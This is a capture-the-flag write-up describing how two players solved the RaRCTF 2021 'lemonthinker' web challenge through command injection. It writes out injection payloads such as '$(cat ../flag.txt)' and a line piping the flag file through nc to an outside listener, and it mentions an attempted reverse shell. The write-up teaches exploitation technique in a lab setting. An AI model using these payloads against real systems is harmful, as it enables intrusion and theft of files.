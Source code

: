 ```yaml
---
layout: post
title: lemon thinker rarctf 2021 Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/lemon-thinker/Screenshot_1.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/lemon-thinker/Screenshot_1.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>lemon thinker rarctf 2021 Web Challenges Writeup </h1>  
 <!--more-->

Hello all , we hope all of you is well 
This writeup is from Abdoghazy , Mohamed Tarek
Today we will explain how we could solve lemonthinker web challenge from rarctf .

PIC 1 

As we See This is an input and "Generate Your lemonthinker" 
after trying it we got this photo
 
PIC 2

note that the source code is attached so let's see what inisde it 
PIC 3 

As we see at line 24 it takes the name from me and passes it to the command that running another script
and there is no filtertion for the input that passes into the command so for sure we thought it's a command injection
note that the os is linux 
the command : python3 generate.py {filename} \"{text}\" 
the user input will be insted of {text} so we will inject there 

as always we tried these payloads : ;id , ||whoami , &&id

but unforently it's not working with us then we see that the input is passes into "" two double qoutes 
so our payloads didn't working and as we learn at bash we could execute commands from this "$(ls)"
and when we tried it we got the response from the server Alhamdullah

PIC 4

note : we tried to get reverse shell but no waaay :(
so after this let's read the flag !!

note that we got that the flag is in ../flag.txt from the source 

so i tried :  $(cat ../flag.txt) and it returned this photo :

pic 5

so let's read the source of generate.py to know why 

pic 6

as you see at line 39 if the rarctf in the respone it will give us the image that we see
so i tried to use this command : $(rev ../flag.txt)  and got this response !

pic 7 

as you see we cannot read more than 18 char and there is many chars (it's more that 70 char :) )
so there is two ways to read the flag : 

First Way to use this command to read the flag part by part : $(cat ../flag.txt | cut -c 0-3) 

Then The Second Way and i think it's an amazing way xD 
after we solved it by the first way i had to travel to my Collage and when i on my way i got this idea ;)
i know when two hosts just connected togheter in same port by nc they could contact like a Chat :D 
so what if we tried to open listner on port 4444 and tried to sent the flag on it by this command 

$(rev ../flag.txt | nc ip port )
and we got the full flag by one Command Alhamdullah :D 3> 

last pic 
